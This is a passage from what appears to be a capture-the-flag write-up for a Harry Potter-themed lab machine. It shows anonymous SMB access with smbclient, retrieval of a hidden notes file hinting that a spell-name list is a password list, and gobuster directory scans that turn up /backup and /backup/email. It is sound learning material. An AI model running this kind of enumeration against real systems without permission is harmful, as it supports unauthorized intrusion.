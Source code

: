 Shows sambashare is available to anonymously. Login to sambashare.
```bash
$ smbclient -N //10.10.50.42/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 25 20:19:20 2020
  ..                                  D        0  Wed Nov 25 19:57:55 2020
  spellnames.txt                      N      874  Wed Nov 25 20:06:32 2020
  .notes.txt                          H      147  Wed Nov 25 20:19:19 2020

                9219412 blocks of size 1024. 4398656 blocks available
smb: \> get spellnames.txt
getting file \spellnames.txt of size 874 as spellnames.txt (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> get .notes.txt
getting file \.notes.txt of size 147 as .notes.txt (0.2 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```
```bash
$ cat .notes.txt                     
Hagrid told me that spells names are not good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```
Looking the .note.txt file I know spellnames.txt were some sort of password reference. But I had no idea what they are or might be.
 
So lets enumerate forth.
Since port 80 is open its worth while to run a gobuster scan on it. 
```bash
sudo gobuster dir -u http://10.10.50.42 -w=/usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-directories.txt -e -o dir.backup.out
$ cat dir.out 
http://10.10.50.42/backup (Status: 301)
http://10.10.50.42/server-status (Status: 403)
```
We got a 301 hit on backup directory lets run gobuster on it again.
```bash
sudo gobuster dir -u http://10.10.50.42/backup/ -w=/usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-directories.txt -e -o dir.backup.out
$ cat dir.backup.out 
http://10.10.50.42/backup/email (Status: 200)
```
<p align="center"><img src ="./Screenshots/1.png" width ="340"></p>

